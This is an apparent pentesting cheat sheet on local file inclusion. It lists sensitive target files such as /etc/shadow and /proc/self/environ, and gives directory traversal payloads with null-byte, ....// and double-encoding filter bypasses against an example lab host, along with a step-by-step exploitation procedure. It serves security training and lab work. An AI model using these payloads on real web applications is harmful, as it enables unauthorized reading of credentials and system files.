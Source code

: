 #### LFI/RFI Fuzzing

This site has some good wordlists:  https://github.com/payloadbox

Some sensitive files to look for with an LFI:  https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/

```bash
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

#### LFI Techniques

- A direct file inclusion, which starts with /etc/passwd
- using .. to get out the current directory, the number of .. is varies depending on the web app directory. 
- Bypassing filters using ....//.
- URL encoding techniques (such as double encoding)

```http
http://example.thm.labs/page.php?file=/etc/passwd http://example.thm.labs/page.php?file=../../../../../../etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```

#### LFI Procedure

1. Look for pages that have parameters that lookup other locations, such as `www.url.com/spot.php?page=anotherpage` or `www.url.com/index.php?file=text.txt` or it could be completely nodescript `www.url.com/index.php?a=cat`

2. Test whether a URL is susceptible to LFI by passing a common local file to the parameter.  You may want to try URL encoding as well if these don't work at first.

   ```bash
   # Linux
   www.url.com/spot.php?page=../../../../../etc/passwd
   
   # Windows
   www.url.com/spot.php?page=..\..\..\..\..\..\windows\system32\drivers\etc\hosts
   ```

3. Check for config files to enumerate the system.  Look for the config file for the webserver, which will give important info like log file locations.  Look for `CustomLog`, `ErrorLog` and `ServerRoot` in the file.
